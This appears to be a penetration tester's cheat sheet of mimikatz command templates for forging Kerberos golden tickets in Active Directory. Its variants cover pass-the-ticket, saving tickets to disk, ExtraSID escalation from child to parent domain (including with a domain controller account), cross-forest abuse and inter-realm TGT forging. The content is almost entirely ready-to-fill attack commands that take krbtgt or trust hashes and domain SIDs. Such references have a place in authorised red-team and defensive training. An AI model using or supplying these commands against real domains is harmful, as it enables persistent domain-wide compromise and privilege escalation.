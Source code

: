 # mimikatz

% mimikatz, passwords
#plateform/windows  #target/local  #cat/CREDENTIAL-ACCESS/CREDS_RECOVER 


## golden - ptt
```
mimikatz.exe "privilege::debug"  "kerberos::golden /user:<user|administrator> /id:<user_rid|500> /group:500,501,513,512,520,518 /krbtgt:<krbtgt_nthash>  /sid:<domain_sid> /domain:<domain_fqdn> /ptt" "exit"
```

## golden - save
```
mimikatz.exe "privilege::debug"  "kerberos::golden /user:<user|administrator> /id:<user_rid|500> /group:500,501,513,512,520,518 /krbtgt:<krbtgt_nthash>  /sid:<domain_sid> /domain:<domain_fqdn> /ticket:c:\temp\trust.kirbi" "exit"
```

## golden - ExtraSID (parent-child) 
```
mimikatz.exe "privilege::debug"  "kerberos::golden /user:<user|jubeaz> /id:<user_rid> /group:500,501,513,512,520,518 /krbtgt:<krbtgt_nthash>  /sid:<src_domain_sid> /domain:<src_domain_fqdn> /sids:<dst_domain_sid>-<rid|519> /ptt" "exit"
```

## golden - ExtraSID (parent-child) (dc account)
```
mimikatz.exe "privilege::debug"  "kerberos::golden /user:<dc_name>$ /id:<dc_rid> /krbtgt:<krbtgt_nthash>  /groups:516 /sid:<src_domain_sid> /domain:<src_domain_fqdn> /sids:<dst_domain_sid>-<rid|516> /ptt" "exit"
```

## golden - ExtraSID (cross-forest)
#plateform/linux #target/local  #cat/ATTACK/EXPLOIT
```
mimikatz.exe "privilege::debug"  "kerberos::golden /user:<user> /id:<user_rid> /krbtgt:<krbtgt_nthash> /group:500,501,513,512,520,518 /sid:<src_domain_sid> /domain:<src_domain_fqdn> /sids:<dst_domain_sid>-<rid>  /ptt" "exit"
```

## golen - Inter-Realm TGT  
```
mimikatz.exe "privilege::debug"  "kerberos::golden /user:<user> /id:<user_rid> /group:500,501,513,512,520,518 /rc4:<trust_nthash>  /sid:<src_domain_sid> /domain:<src_domain_FQDN> /sids:<dst_domain_sid>-<rid|519> /service:krbtgt /target:<dst_domain_fqdn> /ptt" "exit"
```